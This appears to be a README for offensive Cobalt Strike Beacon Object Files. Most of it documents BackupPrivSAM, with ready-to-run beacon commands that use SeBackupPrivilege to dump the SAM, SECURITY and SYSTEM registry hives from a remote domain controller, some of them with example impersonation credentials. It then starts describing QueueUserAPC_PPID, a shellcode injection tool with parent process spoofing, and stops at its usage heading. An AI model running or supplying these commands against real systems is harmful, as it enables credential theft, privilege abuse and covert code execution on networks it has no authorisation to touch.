 BackupPrivSam is a BOF (Beacon Object File) for Cobalt Strike that exploits the SeBackupPrivilege to dump the SAM, SECURITY, and SYSTEM hives from the Windows Registry of a remote machine without needing direct system access.

```
BackupPrivSAM \\computername save_path [domain] [username] [password]
```

- `\\computername`: UNC path to the target computer.
- `save_path`: Path on the target computer where the hives will be saved.
- `domain`: (Optional) Domain of the user if impersonating.
- `username`: (Optional) Username if impersonating.
- `password`: (Optional) Password for the username.


**Dump the Hives to Remote C:\ Drive Using Current Primary Token:**



```
`BackupPrivSAM \\dc01.contoso.local C:\`
```


**Dump the Hives to Remote C:\ Drive, Impersonating a User:**



```
`BackupPrivSAM \\dc01.contoso.local C:\ CONTOSO backup_service Password123`
```

**With Impersonation (SeBackupPrivilege Enabled Account):**



```
`beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\ CORP backup_service *************`
```

**Without Impersonation:**



```
`beacon> make_token CORP\backup_service ********** beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\`
```

**To Check the Dumped Files:**



```
`beacon> ls \\cdc001\C$`
```



#### QueueUserAPC_PPID

QueueUserAPC_PPID is a BOF that allows for process injection via APC (Asynchronous Procedure Call) queuing. It creates a new process as a child of a specified parent and injects shellcode into it.

##### Usage:
